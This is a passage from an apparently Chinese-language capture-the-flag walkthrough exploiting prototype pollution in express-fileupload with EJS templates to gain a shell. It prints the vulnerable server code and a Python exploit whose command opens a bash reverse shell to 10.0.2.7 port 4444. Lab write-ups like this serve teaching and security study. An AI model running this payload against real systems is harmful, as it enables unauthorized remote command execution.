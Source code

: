 
![20220502_0358.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/8ed424f1e24750d0ce1f6d584bfc3eba.png)

![20220502_0357.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/ec4660893cecf81eeb80f5515a56469f.png)


然后进一步去了解该库漏洞，发现如果想要利用该漏洞，必须满足以下条件：

![20220502_0404.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/46ef6f60556ed244056f756954cc782f.png)

而在审计该服务的代码时发现刚好满足条件，所以我当即就去适当地修改了该漏洞利用代码

```js

const express = require('express');
const fileupload = require("express-fileupload");
const http = require('http')

const app = express();

app.use(fileupload({ parseNested: true }));

app.set('view engine', 'ejs');
app.set('views', "/opt/chronos-v2/frontend/pages");

app.get('/', (req, res) => {
   res.render('index')
});

const server = http.Server(app);
const addr = "127.0.0.1"
const port = 8080;
server.listen(port, addr, () => {
   console.log('Server listening on ' + addr + ' port ' + port);
});

```
利用代码

![20220502_0408.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/77519d077fc393dc9188a72a02aa380e.png)

```python
import requests

cmd = 'bash -c "bash -i &> /dev/tcp/10.0.2.7/4444 0>&1"'

# pollute
requests.post('http://127.0.0.1:8080', files = {'__proto__.outputFunctionName': (
    None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})

# execute command
requests.get('http://127.0.0.1:8080')

```
我们将这段代码先在攻击机上编写好，后上传到目标靶机上，并运行，发现成功在攻击机上获得 imera 用户的shell
